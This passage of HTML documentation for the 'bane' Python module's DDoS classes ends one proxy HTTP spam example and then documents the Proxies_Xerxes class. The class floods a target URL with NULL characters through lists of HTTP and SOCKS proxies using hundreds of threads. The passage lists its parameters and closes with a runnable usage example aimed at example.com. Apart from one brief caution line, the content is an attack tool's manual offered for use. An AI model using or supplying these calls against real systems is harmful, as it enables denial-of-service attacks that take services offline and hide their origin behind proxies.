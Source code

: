    ssl_on=False,
    logs=True
)

#Proxy HTTP spam attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set proxy_http_spam.stop = True

#Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>
<h1>Proxies_Xerxes Class</h1>

<h2>Class Overview</h2>
<p>The <code>Proxies_Xerxes</code> class is part of the "bane" module and is used for performing a simple DDoS attack by sending NULL characters through a list of proxy servers.</p>

<h2>Class Constructor</h2>
<pre><code>class Proxies_Xerxes(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>Proxies_Xerxes</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL for sending NULL characters.</li>
    <li><code>scraping_timeout</code> (int): Timeout for proxy scraping in seconds (default is 15).</li>
    <li><code>p</code> (int): Port number of the target server (default is 80).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 700).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>http_proxies</code> (list): List of HTTP proxies to use.</li>
    <li><code>socks4_proxies</code> (list): List of SOCKS4 proxies to use.</li>
    <li><code>socks5_proxies</code> (list): List of SOCKS5 proxies to use.</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>
    <li><code>ssl_on</code> (bool): Enable SSL/TLS for requests (default is False).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is True).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the attack by sending NULL characters to the target URL through a list of proxy servers. It operates in a separate thread.</p>

<h2>Example Usage</h2>
<p>To use the <code>Proxies_Xerxes</code> class, create an instance of it by providing the required parameters, and it will start sending NULL characters to the target URL through the specified proxy servers in the background. Here's an example:</p>

<pre><code>
from bane.ddos import Proxies_Xerxes

#Create an instance of Proxies_Xerxes
proxy_xerxes = Proxies_Xerxes(
    "example.com",
    scraping_timeout=15,
    p=80,
    threads_daemon=True,
    threads=700,
    timeout=5,
    http_proxies=["proxy1:8080", "proxy2:8888"],
    socks4_proxies=None,
    socks5_proxies=["socks5_proxy1:1080", "socks5_proxy2:1080"],
    duration=60,
    ssl_on=False,
    logs=True
)
